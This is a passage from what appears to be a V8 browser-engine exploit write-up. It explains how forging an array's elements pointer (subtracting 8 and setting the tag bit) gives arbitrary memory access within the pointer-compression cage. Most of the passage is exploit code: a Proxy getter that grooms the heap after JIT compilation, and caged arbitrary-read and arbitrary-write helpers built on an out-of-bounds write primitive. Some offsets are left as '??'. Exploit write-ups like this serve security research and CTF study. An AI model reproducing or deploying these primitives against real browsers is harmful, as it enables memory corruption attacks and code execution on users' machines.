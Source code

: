Recall that the `elements` object itself has 8 bytes in the beginning to store
the `map` and `length` field. If the `elements` pointer is set to `N`, performing
`arr[i]` would result in accessing memory address `(N+8) + i * element_size`.
Thus, if we want to perform AAR/AAW on addres `X`, we need to subtract it by 8
and remember to set the LSB to 1 for pointer tagging.

```js
let a;
let oob_arr;
let obj_leaker;
let c_aar_arr;
let c_aaw_arr;

let jitted = false

let p = new Proxy(Object, {
    get: function() {
        if (jitted) {
            a[0] = {};
            oob_arr = Array(1);
            oob_arr[0] = 1.1;
            obj_leaker = [a];
            c_aar_arr = [2.2];
            c_aaw_arr = [3.3];
        }
        return Object.prototype;
    }
})
```

```js
const c_aar_arr_elements_offset = ??
const c_aaw_arr_elements_offset = ??

function caged_arb_read32(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = lo(ftoi(c_aar_arr[0]))
    return leak
}

function caged_arb_read64(addr) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aar_arr_elements_offset, elements)
    let leak = ftoi(c_aar_arr[0])
    return leak
}

function caged_arb_write32(addr, val) {
    let elements = addr - 8n | 1n;
    let temp = caged_arb_read32(addr+4n)
    oob_write32(c_aaw_arr_elements_offset, elements)
    c_aaw_arr[0] = itof((temp << 32n) | val)
}

function caged_arb_write64(addr, val) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aaw_arr_elements_offset, elements)
    c_aaw_arr[0] = itof(val)
}
```
